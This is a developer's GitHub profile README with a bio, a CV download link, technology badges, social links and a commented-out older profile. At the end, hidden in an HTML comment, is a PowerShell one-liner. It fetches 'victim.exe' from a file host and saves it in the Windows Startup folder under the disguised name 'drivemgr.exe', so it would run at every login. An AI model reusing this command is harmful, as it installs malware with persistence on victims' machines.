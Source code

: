 <img src="./assets/banner.png">

<h1 align="center">Hey there, I'm Heshan Thenura Kariyawasam <br>🌱Based in Sri Lanka 🇱🇰</h1>

<h2>
heshanthenura@github:~$ cat aboutme.txt <br><br>

self-taught developer<br>
currently pursuing <strong> BSc (Hons) in Information Technology specialising in Cyber Security at [SLIIT](https://www.sliit.lk/)</strong>
</h2>

```bash
# Download my CV with curl
curl -O https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf
```

### 📄 My CV
- [👀 View Online](https://github.com/heshanthenura/heshanthenura/blob/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf)
- [⬇️ Download PDF](https://github.com/heshanthenura/heshanthenura/raw/main/assets/CV-Heshan_Thenura_Kariyawasam.pdf)

## 🛠️ Tech Stack & Tools I Use

![Java](https://img.shields.io/badge/Java-ED8B00?style=for-the-badge&logo=openjdk&logoColor=white)⠀
![Spring Boot](https://img.shields.io/badge/Spring%20Boot-6DB33F?style=for-the-badge&logo=springboot&logoColor=white)⠀
![JavaFX](https://img.shields.io/badge/JavaFX-5586A4?style=for-the-badge&logo=java&logoColor=white)⠀
![Nim](https://img.shields.io/badge/Nim-FFE953?style=for-the-badge&logo=nim&logoColor=black)⠀
![Go](https://img.shields.io/badge/Go-00ADD8?style=for-the-badge&logo=go&logoColor=white)⠀
![Julia](https://img.shields.io/badge/Julia-9558B2?style=for-the-badge&logo=julia&logoColor=white)⠀
![Python](https://img.shields.io/badge/Python-3670A0?style=for-the-badge&logo=python&logoColor=yellow)⠀
![TypeScript](https://img.shields.io/badge/TypeScript-3178C6?style=for-the-badge&logo=typescript&logoColor=white)⠀
![GDScript](https://img.shields.io/badge/GDScript-%2374267B.svg?style=for-the-badge&logo=godotengine&logoColor=white)⠀
![Godot Engine](https://img.shields.io/badge/GODOT-%23FFFFFF.svg?style=for-the-badge&logo=godot-engine)⠀
![SQL](https://img.shields.io/badge/SQL-4479A1?style=for-the-badge&logo=mysql&logoColor=white)⠀
![React](https://img.shields.io/badge/react-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![React Native](https://img.shields.io/badge/react_native-%2320232a.svg?style=for-the-badge&logo=react&logoColor=%2361DAFB)⠀
![Angular](https://img.shields.io/badge/angular-%23DD0031.svg?style=for-the-badge&logo=angular&logoColor=white)⠀
![GitHub](https://img.shields.io/badge/github-%23121011.svg?style=for-the-badge&logo=github&logoColor=white)⠀
![Linux](https://img.shields.io/badge/Linux-FCC624?style=for-the-badge&logo=linux&logoColor=black)⠀
![ESP32](https://img.shields.io/badge/ESP32-000000?style=for-the-badge&logo=espressif&logoColor=white)⠀
![Firebase](https://img.shields.io/badge/Firebase-FFCA28?style=for-the-badge&logo=firebase&logoColor=black)⠀
![Vercel](https://img.shields.io/badge/Vercel-000000?style=for-the-badge&logo=vercel&logoColor=white)⠀
![Oracle Cloud](https://img.shields.io/badge/Oracle%20Cloud-F80000?style=for-the-badge&logo=oracle&logoColor=white)⠀



## 🤙 Let's Connect & Collaborate
I'm always open to ideas, collabs, or just a good tech convo. Whether you're building something cool, learning something new, or just exploring the world of code, reach out. Let’s build, break, fix, and learn together.

<div align="center"><a href="https://twitter.com/Heshantk"><img width="50px" src="./assets/icons8-twitter.svg"></a><a href="https://www.linkedin.com/in/heshanthenura"><img width="50px" src="./assets/icons8-linkedin.svg"></a><a href="https://www.instagram.com/heshan_thenura/"><img width="50px" src="./assets/icons8-instagram.svg"></a><a href="https://youtube.com/@heshanthenura"><img width="50px" src="./assets/icons8-youtube.svg"></a><a href="https://www.tiktok.com/@heshanthenura"><img width="50px" src="./assets/icons8-tiktok.svg"></a></div>

<h1 align="center"><a href="mailto:heshanthenura@gmail.com">heshanthenura@gmail.com</a></h1>

<!--
<h1 align="center">Heshan Thenura Kariyawasam</h1>

## I am a self-taught programmer from Sri Lanka

Mostly I prefer Backend development.

### My Higher Education

- Pure Mathematics
- Applied Mathematics
- Physics
- Information and Communication Technology

### Frameworks that I work with

- JavaFX
- Spring Boot

### Technologies that I use

- Linux
- Oracle Cloud
- MySQL
- SQLite
- H2
- Git
- WebRTC
- Socket
- WebSocket

[![Heshan's top languages](https://github-readme-stats.vercel.app/api/top-langs/?username=heshanthenura&theme=blue-green)

### If you're interested in custom application development or would like to discuss a project, please don't hesitate to contact me.


<ul>
    <li><a href="https://twitter.com/Heshantk">Twitter</a></li>
    <li><a href="https://www.linkedin.com/in/heshanthenura">LinkedIn</a></li>
    <li><a href="https://www.instagram.com/heshan_thenura/">Instagram</a></li>
    <li><a href="https://youtube.com/@heshanthenura">YouTube</a></li>
    <li><a href="https://www.tiktok.com/@heshanthenura">TikTok</a></li>
</ul>


### [E-Mail](mailto:heshanthenura@protonmail.com) heshanthenura@protonmail.com -->

<!-- ```bash
 (new-object Net.WebClient).DownloadFile('https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe', "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\drivemgr.exe")

https://dlsv37.sonicbit.net/file/dl2/MUVUOGlHNW9oOGJ4Y3h5M0FjUzRMa3lsbHBjbGQzWDF2bG9LZmdiVkVMU1FmeEovVTU0UWY0UFE5b3JMMVJQZDg4cVJXYWdRQlJmWnpVQ1Vkbm1tWEE9PQ==/victim.exe

explorer %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup
``` -->
